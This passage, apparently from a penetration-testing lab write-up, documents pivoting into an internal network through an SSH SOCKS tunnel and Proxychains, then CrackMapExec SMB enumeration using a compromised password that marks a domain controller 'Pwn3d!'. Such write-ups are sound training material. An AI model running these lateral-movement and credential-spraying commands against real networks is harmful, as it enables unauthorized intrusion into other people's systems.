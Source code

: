 ### 🔗 Proxychains Service Tunneling

<p class="indent-paragraph">
Proxychains was installed on the machine attacker host and configured to route traffic through the SSH SOCKS4 proxy. The package was installed via:
</p>

```
~$ sudo apt install proxychains
```

<p class="indent-paragraph">
Next, the Proxychains configuration file was updated to include the SOCKS4 proxy directive at the end of <code>/etc/proxychains.conf</code><span class="codefix">.</span> This change ensures that all supported connections launched through Proxychains will be forwarded over the local SOCKS4 proxy provided by the SSH tunnel.
</p>

```
~$ nano /etc/proxychains.conf

socks4 127.0.0.1 9050
```

<p class="indent-paragraph">
To enable enumeration of the internal network <code>(192.168.98.0/24)</code> from the attacker’s host, a dynamic SSH tunnel was created using the compromised privilege user. This tunnel exposes a local SOCKS proxy on port <code>9050</code><span class="codefix">,</span> allowing proxy-aware tools to route traffic through the target environment as if they were directly connected to it.
</p>

```
~$ sshpass -p 'Admin@962' ssh -D 9050 privilege@192.168.80.10
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

Last login: Tue Apr 29 20:05:51 2025 from <IP>
```

### 🧠 Enumerating SMB with CrackMapExec

<p class="indent-paragraph">
With the targets in place and the SSH tunnel active, SMB enumeration was conducted using CrackMapExec to verify operating system fingerprints, domain membership and credential validity. The command authenticated as <code>john:User1@#$%6</code> against each host, resulting in one account lockout and two successful logons, confirming that these credentials permit lateral movement within the <code>child.warfare.corp</code> domain, a pivotal access point for deeper engagement.
</p>

```
~$ cat targets.txt

192.168.98.2
192.168.98.15
192.168.98.30
192.168.98.120

~$ proxychains -q crackmapexec smb targets.txt -u john -p 'User1@#$%6'

SMB         192.168.98.2    445 DC01      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:warfare.corp) (signing:True) (SMBv1:False)
SMB         192.168.98.120  445 CDC      [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False)
SMB         192.168.98.30   445 MGMT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:True)
SMB         192.168.98.2    445 DC01     [-] warfare.corp\john:User1@#$%6 STATUS_LOGON_FAILURE
SMB         192.168.98.120  445 CDC      [*] child.warfare.corp\john:User1@#$%6 (Pwn3d!)
```
